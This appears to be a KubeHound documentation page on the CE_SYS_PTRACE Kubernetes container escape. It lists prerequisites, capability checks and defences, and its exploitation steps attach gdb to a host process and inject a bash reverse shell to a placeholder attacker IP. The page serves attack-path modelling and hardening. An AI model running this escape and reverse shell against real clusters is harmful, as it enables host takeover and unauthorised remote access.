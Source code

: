 ```yaml
---
title: CE_SYS_PTRACE
---
```


<!--
id: CE_SYS_PTRACE
name: "Container escape: Attach to host process via SYS_PTRACE"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# CE_SYS_PTRACE

| Source                                | Destination                 | MITRE ATT&CK                                                        |
| ------------------------------------- | --------------------------- | ------------------------------------------------------------------- |
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Given the requisite capabilities, abuse the legitimate OS debugging mechanisms to escape the container via attaching to a node process.

## Details

The `SYS_PTRACE` capability, which allows the use of `ptrace()`. This system call allows a process to monitor and control the execution of another process.

## Prerequisites

To perform this attack, the container must be started with the option `hostPID: true`, which enables the sharing of the PID address space between the container and the host operating system, allowing the container process to see every other process running on the host. And the container needs to be granted `SYS_PTRACE` and `SYS_ADMIN` capabilities.

Since Kubernetes 1.31.0, [AppArmor is enabled by default](https://kubernetes.io/docs/tutorials/security/apparmor/), which allows ptrace to target processes only on the same pod.
This adds another requirement, the container needs the `Unconfined` AppArmor profile.

Or, it can be started with the option `privileged: true`, which grants all capabilities and disables AppArmor

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/CE_SYS_PTRACE.yaml).

## Checks

From within a running container, determine whether it is running with the required capabilities:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff:	00000000a80425fb

# Decode the capabilities (on current box or offline) and check for CAP_SYS_PTRACE and CAP_SYS_ADMIN
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=00000000a80425fb | grep cap_sys_admin
capsh --decode=00000000a80425fb | grep cap_sys_ptrace

# Check AppArmor status - if you see for instance `cri-containerd.apparmor.d (enforce)`, ptrace will
# fail with Permission Denied
cat /proc/self/attr/current
```

## Exploitation

Install a debugger into the container:

```bash
apt update && apt install gdb
```
Find a host process to target:

```bash
ps -ef # select a PID
```

Attach to the process and inject a shell command:

```bash
gdb -p <PID>
call (void)system("bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1'")
```

## Defences

### Monitoring

+ Monitor for GDB (or other debugging tools) installation. 
+ Detect invocation of ptrace() from within a container.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with additional powerful capabilities.

### Least Privilege

Avoid running containers as the `root` user. Enforce running as an unprivileged user account using the `runAsNonRoot` setting inside `securityContext` (or explicitly setting `runAsUser` to an unprivileged user). Additionally, ensure that `allowPrivilegeEscalation: false` is set in `securityContext` to prevent a container running as an unprivileged user from being able to escalate to running as the `root` user.

## Calculation

+ [EscapeSysPtrace](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/escape_sys_ptrace.go)

## References:

+ [Container Escape: All You Need is Cap (Capabilities)](https://www.cybereason.com/blog/container-escape-all-you-need-is-cap-capabilities?hs_amp=true)
